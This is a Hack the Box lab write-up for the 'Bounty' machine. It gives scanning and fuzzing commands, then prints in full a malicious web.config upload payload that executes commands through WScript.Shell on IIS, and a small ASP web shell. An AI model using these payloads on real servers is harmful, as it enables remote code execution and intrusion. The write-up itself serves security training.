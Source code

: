 # Hack the Box - Bounty

```CSS
rustscan -a 10.10.10.93 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7330b783-2899-4178-85f9-f2f4205e5751)

```CSS
nmap -sC -sV 10.10.10.93 -p 80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/059852ea-43b3-440b-b772-658fba2b0935)

HTTP:80
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0e11f480-8ace-4ef6-8508-72abc975ffac)

HTTP:80 (Source-Code)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b9dfdf95-1160-4519-9a1c-41ac0f452e27)

Directory Fuzzing
```CSS
feroxbuster -u http://10.10.10.93 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -n
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e055ef8b-a99f-477d-8796-95a910bb9a76)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2141f6c4-5b42-48ae-9379-0f2fb9bdb62e)

File Fuzzing
```CSS
feroxbuster -u http://10.10.10.93 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -x aspx -s 200 -n
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/17b59a3d-7084-471b-b337-854971c477d4)

Secure File Transfer: File Upload
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/e3bc0a21-f5cb-4a33-98e9-69b7adf437f9)

Upload image file with `.jpg` extensions:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/dba3e40f-666d-4bc3-9f18-e30685f2a8cd)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/19af3c0d-de74-4fd0-a4ce-375f17c8eec1)

Other extensions:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1f085b6d-5326-4526-b792-4ead3add7bdf)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3c9f0e11-6cea-4c15-b6f3-275c1c7682a8)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a4344684-cf50-4610-8f92-1051b1325cde)

RCE by uploading a `web.config` file: https://web.archive.org/web/20200808062615/https://poc-server.com/blog/2018/05/22/rce-by-uploading-a-web-config/

Contents of `web.config`
```CSS
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
   <appSettings>
</appSettings>
</configuration>
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("whoami")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```

Simple Shell:
```CSS
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c ping CHANGE_ME")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```
